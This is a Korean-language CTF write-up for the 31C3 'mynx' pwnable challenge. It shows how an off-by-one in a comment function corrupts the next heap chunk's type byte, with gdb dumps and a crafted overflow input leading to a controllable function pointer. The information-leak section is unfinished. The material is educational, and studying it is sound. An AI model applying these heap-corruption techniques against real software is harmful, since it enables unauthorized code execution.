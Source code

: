 ```yaml
---
layout: post
title: "31C3 CTF mynx writeup"
headline:
modified: 2017-01-17
category: pwnable
comments: true
featured: true
---
```


A writeup for mynx challenge from 31c3 CTF. Have fun :)



## mynx

**Category:** pwnable  
**Points:** 30  
**Type:** Off-by-One, Custom Heap Implementation  
**Description:**  

> mynx running on 188.40.18.80 1234


### Custom Heap Implementation

전역변수 형태로 정의되어 있는 `heapTable@0x0804A900`와 `chunkCntTable@0x0804A904`와 `idxCnt@0x0804A940`가 Heap Management를 수행하는데 사용된다. `heapTable`의 경우 4096(0x1000)byte만큼 할당되는 메모리 블록들의 포인터 배열이며, 각각의 메모리 블록들은 256(0x100)byte 단위(**chunk**라 하자)로 16등분되어 사용된다. 그리고 `chunkCntTable`은 앞에 선언된 `heapTable`에 존재하는 chunk의 개수를 저장하고 있다. 만약 16개가 넘는다면 out-of-memory 에러를 출력하도록 되어있다. `idxCnt`는 이후에 저장되는 ascii_art 혹은 comment 의 id값을 저장하기 위한 변수이다. 해당 바이너리에서 사용되는 구조체는 크게 2가지 유형이 있다.

```c
struct ascii_art {
  char type; // 0x49 : ascii_art
  int id;
  void (*filter_method)(char * content);
  char content[247];
}
```

```c
struct comment {
  char type; // 0x37 : comment
  int id;
  char comment[251];
}
```

두 구조체의 크기는 256(0x100)byte로 동일하다. 즉, 메모리 블록내에 256byte 단위로 존재하는 chunk만큼 할당이 되는 것이다.

### Vulnerability

취약점은 `addComment@0x08048CE3`함수에 존재한다. `addAsciiart@0x08048D8B`의 경우 `read()` 함수로 입력받을 때, 247byte 만큼만 받는다. 하지만, `addComment`의 경우 할당된 크기(251byte)보다 1byte 더 크게 입력 받는다. 즉, 여기서 **Off-by-One** 취약점이 발생한다. 이는 절묘하게도 다음 chunk의 `type`값을 덮어쓸 수 있고, 결국 **Type Confusion** 취약점으로 연계될 수 있다.

Debugging
---------

(1) add ascii_art A1(0x804b008) - AAAA

(2) add ascii_art A2(0x804b108) - BBBB

(3) add comment(C1:0x804b208) to A1 - aaaa

(4) add comment(C2:0x804b308) to A2 - bbbb

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000237	0x62626200	0x00000a62	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
```

(5) add ascii_art A3(0x804b408) - CCCC (6) delete comment(C2:0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000200	0x62626200	0x00000a62	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(7) add comment(C3:0x804b308) to A3 - cccc ; it will put in C2(0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000337	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(8) delete comment(C1:0x0804b208)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000100	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000337	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(9) add comment(C2) to A2 - "b"*0xfb + "\x49" ; it will put in C1(0x0804b208) and overwrite C3(0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000237	0x62626200	0x62626262	0x62626262
0x804b218:	0x62626262	0x62626262	0x62626262	0x62626262
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000349	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000

gdb-peda$ x/65wx 0x0804b208
0x804b208:	0x00000237	0x62626200	0x62626262	0x62626262
0x804b218:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b228:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b238:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b248:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b258:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b268:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b278:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b288:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b298:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2a8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2b8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2c8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2d8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2e8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2f8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b308:	0x00000349
```

### EIP Control

실행흐름을 바꾸기 위해서는 여러가지 방법이 존재하지만 여기서는 고맙게도 함수 포인터(Function Pointer)가 존재한다. ![function_ptr]({{ site.url }}/images/2017-01-17/function_ptr.png) 심지어 인자 값까지 컨트롤 가능하므로 완벽한 취약점 조건이 된다.

### Constructing an Information Leak

TBA
